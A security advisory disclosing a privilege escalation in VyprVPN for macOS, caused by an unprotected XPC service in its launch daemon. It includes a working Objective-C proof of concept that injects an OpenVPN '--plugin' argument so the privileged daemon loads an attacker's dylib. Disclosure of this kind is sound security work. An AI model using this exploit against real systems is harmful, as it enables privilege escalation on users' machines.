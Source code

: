 ### [VS-2017-007] VyprVPN for MacOS Privilege Escalation Vulnerability 

```
Download: https://www.goldenfrog.com/vyprvpn
CVE:
Author: Benjamin Watson of VerSprite Security
Affected: < 2.15.0.5828
```

#### Vulnerability Details

The VyprVPN's vyprvpnservice launch daemon has an unprotected XPC service that allows attackers to update the underlying OpenVPN configuration and the arguments passed to OpenVPN binary when executed. 
An attacker can abuse this vulnerability by forcing the VyprVPN application to load a malicious dynamic library every time a new connection is made.

#### Exploitation

#### PoC

```c
// Make XPC connection
NSLog(@"[+] Connecting to vyprvpnservice [!]");
xpc_connection_t connection = xpc_connection_create_mach_service("vyprvpnservice", NULL, 0);
assert(connection);
NSLog(@"[+] Service connection successfull [!]");
// Set XPC event handler
xpc_connection_set_event_handler(connection, ^(xpc_object_t event) {
    NSLog(@"[+] Received response from XPC service event handler [!]");
    char *description = xpc_copy_description(event);
    NSLog(@"[+] %s", description);
    free(description);
});
// Resume connection
xpc_connection_resume(connection);
// Build payload
NSLog(@"[+] Building XPC dictionary [!]");
xpc_object_t payload = xpc_dictionary_create(NULL, NULL, 0);
// {+} {"RequestedKey":"openvpn_additional_params","Value":"--plugin \/path\/to\/dylib","Action":"set"}
NSDictionary *dict = [[NSDictionary alloc] initWithObjectsAndKeys:@"openvpn_additional_params", 
              @"RequestedKey", 
              @"--plugin /Users/rotlogix/Development/Plugin/libPlugin", 
              @"Value", @"set", 
              @"Action", nil];
NSData *json = [NSJSONSerialization dataWithJSONObject:dict options:NSJSONWritingPrettyPrinted error:NULL];
xpc_dictionary_set_data(payload, "data", json.bytes, json.length);
NSLog(@"[+] XPC dictionary creation finished [!]");
// Send the XPC message
NSLog(@"[+] Sending XPC message with updated params --plugin /Users/rotlogix/Development/Plugin/libPlugin [!]");
xpc_connection_send_message_with_reply(connection, payload, NULL, ^(xpc_object_t event) {
    size_t dataLength;
    NSLog(@"[+] Received response from XPC service [!]");
    char *description = xpc_copy_description(event);
    NSLog(@"[+] %s", description);
    free(description);
    const void *returnData = xpc_dictionary_get_data(event, "data", &dataLength);
    NSData *myData = [NSData dataWithBytes:returnData length:dataLength];
    assert(myData);
    NSJSONSerialization *json = [NSJSONSerialization JSONObjectWithData:myData options:NSJSONReadingMutableLeaves error:NULL];
    NSLog(@"[+] %@", json );
});
```

